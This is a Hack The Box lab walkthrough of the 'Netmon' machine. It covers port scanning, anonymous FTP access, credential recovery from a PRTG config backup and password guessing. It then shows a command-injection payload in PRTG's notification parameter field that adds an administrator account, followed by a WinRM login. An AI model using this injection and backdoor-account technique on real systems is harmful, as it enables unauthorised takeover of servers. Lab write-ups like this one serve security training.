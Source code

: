 # HTB - Netmon

#### Ip: 10.10.10.152
#### Name: Netmon
#### Rating: Easy

----------------------------------------------------------------------

![Netmon.png](../assets/netmon_assets/Netmon.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 13:15 CDT
Warning: 10.10.10.152 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.152
Host is up (0.071s latency).
Not shown: 65491 closed tcp ports (reset), 31 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.96 seconds
```

Lets also use the `-sC` and `-sV` flags to use Nmap basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ sudo nmap -sC -sV -T4 10.10.10.152 -p 21,80,135,139,445,5985,47001
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 13:16 CDT
Nmap scan report for 10.10.10.152
Host is up (0.066s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-09T18:17:06
|_  start_date: 2023-08-09T18:14:16
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.65 seconds
```

Cool, looks like FTP has anonymous access enabled and it contains what appears to be the `C:\` drive? Always a winning combo.

Lets check that out first:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:ryan): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49866|)
150 Opening ASCII mode data connection.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49867|)
150 Opening ASCII mode data connection.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49868|)
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
08-09-23  02:14PM                   34 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||49871|)
150 Opening ASCII mode data connection.
100% |********************************************************************************|    34        0.48 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (0.48 KiB/s)
```

Wow, we were able to grab the user.txt flag:

![user_flag.png](../assets/netmon_assets/user_flag.png)

Browsing around a bit more we find some interesting configuration files for the PRTG Network Monitor. Lets use the `get` command to bring these back locally for inspection.

Checking out the PRTG Configuration.old.bak file, we find some credentials:

![creds.png](../assets/netmon_assets/creds.png)

Navigating to the website on port 80 we find a login for PRTG Network Monitor. Lets try the credentials here:

![fail.png](../assets/netmon_assets/fail.png)

Hmm, these aren't working here. I did notice that the password has the year 2018 in it. Maybe the password we found was old and the admin got lazy and just changed the password up a year? Lets try PrTg@dmin2019

Nice, that worked!

![in.png](../assets/netmon_assets/in.png)

This version of PRTG is vulnerable to command injection. We can exploit this by heading over to the Notifications section in Account Settings and selecting "Add New Notification."

From there we can scroll down to the Execute Program feature and enable it. We can select the .ps1 script and then add in the Parameter field:

```text
test.txt;net user howdy Password123! /add;net localgroup administrators howdy /add
```

I can now hit Save and make sure my new notification is active:

![active.png](../assets/netmon_assets/active.png)

Once this is done we can click on the bell icon to test the notification (add our user).

Once completed lets use CrackMapExec to make sure our user has been added:

![cme.png](../assets/netmon_assets/cme.png)

Cool, we can now log on to the box to grab the last flag:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ evil-winrm -i 10.10.10.152 -u howdy -p Password123!
```

![root_flag.png](../assets/netmon_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------------------------------


